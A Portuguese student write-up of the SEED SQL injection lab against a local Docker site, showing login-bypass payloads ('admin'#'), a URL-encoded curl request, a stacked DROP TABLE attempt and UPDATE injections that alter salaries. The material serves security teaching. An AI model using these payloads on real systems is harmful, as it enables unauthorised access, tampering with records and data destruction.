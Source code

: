 # SQL Injection Attack

## Setup

Numa fase inicial adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executamos os containers fornecidos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios.

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up

$ docksh f3             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Selecionar o schema
```

## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice". Como a sintaxe SQL já é bem conhecida facilmente chegamos ao comando correcto para executar a operação:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtivemos assim todos os dados pessoais do utilizador:

![Task 1](../img/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e também ao ficheiro `unsafe_home.php`. Aí pudemos constatar que a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```sql
WHERE name= '$input_uname' and Password='$hashed_pwd'
```

Como o campo password é cifrado é vantajoso usurpar o funcionamento da pesquisa usando somente o campo do username.<br>
Ao usarmos o input "admin'#", garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim obter todos os dados relativos ao resto dos utilizadores da aplicação:

![Task 2 a](../img/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Desta vez realizamos o ataque através de um pedido GET. Um exemplo de um pedido a este servidor numa linha de comandos seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, desta vez cifrado usando as convenções (%27 = ' e %23 = #), obtivemos o seguinte comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtivemos com isto o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../img/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect no servidor. Por exemplo eliminar a tabela das credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto a operação não chegou a ser executada devido a um erro na base de dados:

![Task 2 c](../img/lab8task2c.png)

Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries, pelo que não foi possível concluir o ataque.

### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com uma conta do sistema (por exemplo username = Alice, password = 11), tivemos acesso a uma página para editar os dados pessoais. Esta é gerida a partir do ficheiro disponibilizado `unsafe_edit_backend.php`, que contém uma query também formada dinamicamente com as strings não sanitizadas do input do utilizador. <br>
O nosso ataque consistui na utilização do campo "phone number". Usando a mesma técnica dos tópicos anteriores obtivemos o seguinte código que pode manipular o salário do utilizador:

```sql
933667378',Salary='9999999
```

Note-se que a plica (') antes do valor do salário é importante para completar a última instrução antes do WHERE. No final o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```

Tal como previsto, a variável salário foi também alterada para o valor escolhido:

![Task 3 a](../img/lab8task3a.png)

#### Task 3.2 - Modify other people’ salary

Para alterar o valor do salário de outro utilizador usamos uma técnica parecida com a anterior. No entanto criamos uma WHERE clause diferente e comentamos a que estava no sistema para não interferir na pesquisa:

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

Aqui podemos ver o valor do salário do Boby antes e depois do ataque:

![Task 3 b](../img/lab8task3b.png)